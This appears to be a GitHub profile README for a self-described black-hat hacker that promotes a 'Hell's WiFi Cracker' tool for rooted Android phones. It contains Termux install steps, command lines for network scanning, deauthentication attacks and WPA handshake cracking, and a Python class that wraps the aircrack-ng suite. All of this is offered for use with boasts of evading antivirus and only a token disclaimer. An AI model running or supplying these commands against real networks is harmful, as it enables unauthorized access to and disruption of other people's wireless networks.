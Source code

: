 ```markdown
<div align="center">
  <!-- Banner with Direct Link -->
  <img src="https://i.imgur.com/9XzTJrq.gif" width="800" alt="Lucifer Banner">
  
  <!-- Animated Title -->
  <img src="https://readme-typing-svg.demolab.com?font=Fira+Code&weight=700&size=28&duration=4000&pause=1000&color=FF0000&background=000000&center=true&vCenter=true&width=700&lines=LUCIFER+THE+FALLEN+ONE;BLACK+HAT+PENTESTER;MOBILE+OS+MODDER;NOTHING+IS+IMPOSSIBLE" alt="Animated Title">

  <!-- Dynamic Badges -->
  <img src="https://komarev.com/ghpvc/?username=MrLucifer-92&label=SOULS+HACKED&color=red&style=for-the-badge" alt="Visitor Count"> 
  <img src="https://img.shields.io/badge/STATUS-WANTED-red?style=for-the-badge&logo=starship&logoColor=white&color=000000" alt="Status">
  <img src="https://img.shields.io/badge/WIFI_HACKING-ACTIVE-red?style=for-the-badge&logo=wifi&logoColor=white&color=000000" alt="WiFi Hacking">
</div>

---

### 🔥 **About The Digital Devil**
> *"Security systems are just modern-day heaven gates - meant to be stormed"*  
> - Lucifer Morningstar

```javascript
const lucifer = {
  alias: "The Dark Lord",
  title: "Black Hat Pentester | Mobile OS Modifier",
  philosophy: "If it exists, it can be hacked - if it can't, I'll create the tool",
  coreSkills: ["JavaScript", "Python", "SQL", "C++", "Ruby", "Bash", "PHP"],
  specialties: [
    "WiFi Penetration Testing", 
    "Mobile OS Modification",
    "System Exploitation"
  ],
  tools: ["Kali Nethunter", "Metasploit", "Aircrack-ng", "Burp Suite"],
  currentProject: "Hell's WiFi Cracker"
};
```

---

### ⚔️ **Infernal Arsenal**
<p align="center">
  <!-- Technology Badges -->
  <img src="https://img.shields.io/badge/Kali_Linux-000?style=for-the-badge&logo=kali-linux&logoColor=FF0000" alt="Kali">
  <img src="https://img.shields.io/badge/Termux-000?style=for-the-badge&logo=termux&logoColor=FF0000" alt="Termux">
  <img src="https://img.shields.io/badge/Aircrack--ng-000?style=for-the-badge&logo=wireshark&logoColor=FF0000" alt="Aircrack">
  <img src="https://img.shields.io/badge/Python-000?style=for-the-badge&logo=python&logoColor=FF0000" alt="Python">
  <img src="https://img.shields.io/badge/Bash-000?style=for-the-badge&logo=gnu-bash&logoColor=FF0000" alt="Bash">
  <img src="https://img.shields.io/badge/C++-000?style=for-the-badge&logo=c%2B%2B&logoColor=FF0000" alt="C++">
  <img src="https://img.shields.io/badge/Android-000?style=for-the-badge&logo=android&logoColor=FF0000" alt="Android">
</p>

---

### 📡 **Hell's WiFi Cracker Project**
> *"Every password has a weakness. I exist to exploit it."*  
> - Lucifer's Networking Bible

#### 🔥 Installation (Termux)
```bash
# Step 1: Prepare Infernal Environment
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git python libcrypt aircrack-ng termux-api -y

# Step 2: Clone Devil's Toolkit
git clone https://github.com/MrLucifer-92/Hells-WiFi-Cracker.git
cd Hells-WiFi-Cracker

# Step 3: Activate Demon Mode
chmod +x infernal_activator.sh
./infernal_activator.sh --install
```

#### ⚡ Operational Commands
```bash
# Scan for vulnerable networks
sudo python infernal_scanner.py --interface wlan0

# Target specific network
sudo python soul_harvester.py --bssid XX:XX:XX:XX:XX:XX --channel X

# Launch deauthentication attack
sudo python demon_force.py --bssid XX:XX:XX:XX:XX:XX --client XX:XX:XX:XX:XX:XX

# Crack captured handshake
sudo aircrack-ng -w passwords.txt -b XX:XX:XX:XX:XX:XX captured.cap
```

#### 🔮 Technical Specifications
```python
class WiFiDemon:
    def __init__(self, interface="wlan0"):
        self.interface = interface
        self.monitor_mode = False
        
    def enable_monitor_mode(self):
        os.system(f"airmon-ng start {self.interface}")
        self.monitor_mode = True
        
    def capture_handshake(self, bssid, channel, output_file="captured.cap"):
        if not self.monitor_mode:
            self.enable_monitor_mode()
            
        command = f"airodump-ng --bssid {bssid} -c {channel} " \
                  f"-w {output_file} {self.interface}mon"
        os.system(command)
        
    def deauthenticate(self, bssid, client="FF:FF:FF:FF:FF:FF", count=10):
        command = f"aireplay-ng --deauth {count} -a {bssid} " \
                  f"-c {client} {self.interface}mon"
        os.system(command)
        
    def crack_wpa(self, cap_file, wordlist="infernal_passwords.txt"):
        os.system(f"aircrack-ng {cap_file} -w {wordlist}")
        
    def send_sms_report(self, status):
        os.system(f'termux-sms-send -n 666 "HACK STATUS: {status}"')
```

#### ⚠️ Legal & Technical Notes
- **Requirements**: 
  - Rooted Android device (Android 8.0+ recommended)
  - Wireless chipset supporting monitor mode
  - Termux with root privileges
  
- **Legal Disclaimer**:  
  > "This tool is for educational purposes only. Never attack networks without explicit permission. Developer assumes no liability for misuse."

- **Detection Metrics**:  
  <img src="https://img.shields.io/badge/AV_Detection-0%2F72-red?style=flat-square" alt="AV Detection"> 
  <img src="https://img.shields.io/badge/Success_Rate-92%25-red?style=flat-square" alt="Success Rate">

---

### 📊 **Dominion Statistics**
<div align="center">
  <!-- GitHub Stats -->
  ![Pentest Stats](https://github-readme-stats.vercel.app/api?username=MrLucifer-92&show_icons=true&theme=dark&bg_color=000000&title_color=ff0000&icon_color=ff0000&text_color=ffffff&border_color=ff0000&custom_title=DAMNATION+METRICS)
  
  <!-- Streak Stats -->
  ![Hacking Streak](https://github-readme-streak-stats.herokuapp.com/?user=MrLucifer-92&theme=black-ice&background=000000&stroke=FF0000&ring=FF0000&fire=FF0000&currStreakLabel=FF0000)
  
  <!-- Language Stats -->
  ![Top Skills](https://github-readme-stats.vercel.app/api/top-langs/?username=MrLucifer-92&layout=compact&theme=dark&bg_color=000000&title_color=ff0000&text_color=ffffff&border_color=ff0000)
</div>

---

### 📞 **Contact The Digital Devil**
<div align="center">
  <!-- Avatar with Glow Effect -->
  <img src="https://i.imgur.com/3q7Xe7d.jpg" width="150" style="border-radius:50%;border:3px solid #ff0000;box-shadow:0 0 25px #ff0000" alt="Lucifer Avatar">
  
  <!-- Contact Badges -->
  <p>
    <a href="mailto:lucifer.bnd@gmail.com">
      <img src="https://img.shields.io/badge/EMAIL-lucifer.bnd@gmail.com-FF0000?style=for-the-badge&logo=gmail&logoColor=black" alt="Email">
    </a>
    <a href="https://imo.im/pEn7JN">
      <img src="https://img.shields.io/badge/IMO-Contact_Me-000000?style=for-the-badge&logo=messenger&logoColor=FF0000" alt="IMO">
    </a>
    <a href="https://t.me/TheWizarrrd">
      <img src="https://custom-icon-badges.demolab.com/badge/TELEGRAM-@TheWizarrrd-000?style=for-the-badge&logo=telegram&logoColor=FF0000" alt="Telegram">
    </a>
  </p>
  
  <!-- Lucifer Sigil -->
  <img src="https://i.imgur.com/5RZJf8W.png" width="100" alt="Sigil">
</div>

---

> *"The best security systems are designed by those who know how to break them."*  
> - The Book of Lucifer, Chapter 9:12
```
